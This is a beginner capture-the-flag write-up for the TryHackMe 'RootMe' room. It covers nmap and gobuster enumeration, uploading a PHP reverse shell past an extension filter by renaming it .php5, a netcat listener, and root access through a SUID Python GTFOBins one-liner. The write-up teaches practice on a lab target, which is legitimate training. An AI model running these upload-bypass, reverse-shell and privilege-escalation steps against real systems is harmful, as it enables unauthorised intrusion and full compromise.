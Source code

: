 # [RootMe](https://tryhackme.com/room/rrootme) - THM
**Description** | A ctf for beginners, can you root me?
 --    | --
**Difficulty** | easy
## nmap scan
```bash
$ nmap -sV  10.10.123.179
  Nmap scan report for 10.10.123.179
  Host is up (0.11s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **Notes:** SSH and HTTP are open. I started with the web service because it often provides useful attack paths.


## HTTP
Visit: `http://10.10.123.179`
![alt txet](https://github.com/user-attachments/assets/79162dad-117b-4ab2-950d-111f4a36f747)

## Gobuster

Let's enumerate common directories:
```bash
$ gobuster dir -u http://10.10.123.179 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 616]
/.hta                 (Status: 403) [Size: 276]
/.hta.                (Status: 403) [Size: 276]
/.htaccess.           (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd.           (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.123.179/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.123.179/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.123.179/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.123.179/uploads/]
```
> Notes: /panel and /uploads look interesting
## /panel Directory

![alt text](https://github.com/user-attachments/assets/4016356e-ea7a-46cd-beff-98b129749aa2)

### We can uplosd files here. Let's upload a web-shell to get a shell.

you can use this php reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
### File upload: failed attempt then success
  ### 1. First attempt — upload .php web-shell

![alt text](https://github.com/user-attachments/assets/7e1f6514-0c75-4a63-bf98-11c06715efe3)

I tried uploading a standard PHP reverse shell file with a .php extension. Upload was rejected by the server.
         The server likely blocks .php uploads (extension filtering) or checks MIME/type.
     
 #### 2. Second attempt — change extension to
![alt text](https://github.com/user-attachments/assets/c2960494-7412-4211-a981-891a5846ead8)

I renamed the file to shell.php5 and uploaded again. Upload succeeded and the file was accessible/executable. Why this worked: Some servers accept alternative PHP extensions (e.g., .php5, .phtml) or have a whitelist of allowed extensions. In this case .php5 was treated as executable by the server while .php was filtered.

## /uploads Directory

![alt text](https://github.com/user-attachments/assets/5fa06fee-10f1-4e75-86c9-ad7e2766f07e)

Start a netcat listener from your attack machine.

```bash
$ nc -lvnp 1234
```
Visit the uploaded PHP URL `http://10.10.123.179/uploads/php-reverse-shell.php5` to trigger the reverse shell.
![alt text](https://github.com/user-attachments/assets/514e04dc-e33f-4758-883a-887dcb79be50)

## User flag

know let's search for user.txt flag
```bash
$ find -type f -name 'user.txt' 2>/def/null
/var/www/user.txt
```
![alt text](https://github.com/user-attachments/assets/57d9b7d5-6d40-4a0c-9c89-402657eceea6)

## PRIVILEGE ESCALATION
First we need to search for SUID permissions to escalate our privileges.

```bash
$ find -type f -perm -4000 2>/dev/null
```
![alt text](https://github.com/user-attachments/assets/4204c297-7d2f-4ba9-b9b8-8c616c4c5f2f)

A SUID binary (e.g., python) was discovered.

### Exploiting SUID python (GTFOBins method)
I looked up [GTFoBins](https://gtfobins.github.io/gtfobins/python/#suid) for `Python` SUID techniques and used the following:

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root
```
![alt text](https://github.com/user-attachments/assets/ea1cf006-5fde-4b50-8faa-74df105dec72)

**Explanation:** Executing the SUID python binary allowed spawning a shell with the effective UID of the binary owner (root). Using os.execl("/bin/sh", "sh", "-p") preserves the elevated privileges and spawns a root shell.

